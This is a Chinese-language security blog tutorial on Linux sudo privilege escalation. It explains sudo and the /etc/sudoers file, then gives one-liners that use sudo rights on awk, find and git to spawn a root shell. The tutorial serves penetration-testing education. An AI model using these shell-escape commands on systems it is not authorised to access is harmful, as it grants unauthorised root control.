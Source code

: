 ```yaml
---
title: Linux渗透 Sudo提权
description: Linux渗透 Sudo提权
pubDate: 11 13 2024
image: https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20Sudo%E6%8F%90%E6%9D%83/003%20Linux%20Sudo%E6%8F%90%E6%9D%83-9.webp
categories:
  - 网络安全
tags:
  - Linux提权
---
```


## sudo 命令

sudo 是 Linux 系统管理指令，是允许系统管理员让普通用户执行一些或者全部的 root 命令的一个工具，如 halt，reboot，su等等。换句话说通过此命令可以让非 root 的用户运行只有 root 才有权限执行的命令。当一般用户执行特殊权限时，在命令前加上 sudo，此时系统会让你输入密码以确认终端机前操作的是你本人，确认后系统会将该命令的进程以超级用户的权限运行。在一定的时间段内，再次执行sudo的命令时不再询问密码，超出此时间段（一般为5分钟）后需要再次输入密码。

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20Sudo%E6%8F%90%E6%9D%83/003%20Linux%20Sudo%E6%8F%90%E6%9D%83-1.webp)

## sudoers 文件

要想使一个用户具有使用 sudo 的能力，需要让 root 用户将其名字、可以执行的特定命令、按照哪种用户或用户组的身份执行等信息注册到 `/etc/sudoers` 文件中，即完成对该用户的授权（此时该用户称为“sudoer”）才可以。

在 Linux/Unix 中，`/etc/sudoers` 文件是sudo权限的配置文件，其中储存了一些用户或组可以以 root 权限使用的命令。如下图

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20Sudo%E6%8F%90%E6%9D%83/003%20Linux%20Sudo%E6%8F%90%E6%9D%83-2.webp)

- 给用户赋予全部root权限：找到 root 权限 `root ALL=(ALL:ALL) ALL`，在下一行输入 `kali ALL(ALL:ALL) ALL`，保存后退出，这样即表示用户 kali 可以使用 sudo 调用 root 权限执行命令。即此时 kali 用户相当于 root 了

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20Sudo%E6%8F%90%E6%9D%83/003%20Linux%20Sudo%E6%8F%90%E6%9D%83-3.webp)

使用 `sudo -l` 查看权限

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20Sudo%E6%8F%90%E6%9D%83/003%20Linux%20Sudo%E6%8F%90%E6%9D%83-4.webp)

- 给予用户部分权限：`kali ALL=(root) NOPASSWD: /usr/bin/python`，kali 用户就能使用 sudo 去以 root 权限执行 `/usr/bin/python` 命令了

## sudo 提权

### awk

awk：

```shell
sudo awk 'BEGIN{system("/bin/bash")}'
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20Sudo%E6%8F%90%E6%9D%83/003%20Linux%20Sudo%E6%8F%90%E6%9D%83-6.webp)

### find

find：这里查找的东西一定是存在的，不然会报错

```shell
sudo find /home -exec /bin/bash \;
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20Sudo%E6%8F%90%E6%9D%83/003%20Linux%20Sudo%E6%8F%90%E6%9D%83-5.webp)

### git

```shell
sudo git help add
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20Sudo%E6%8F%90%E6%9D%83/003%20Linux%20Sudo%E6%8F%90%E6%9D%83-7.webp)

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20Sudo%E6%8F%90%E6%9D%83/003%20Linux%20Sudo%E6%8F%90%E6%9D%83-8.webp)
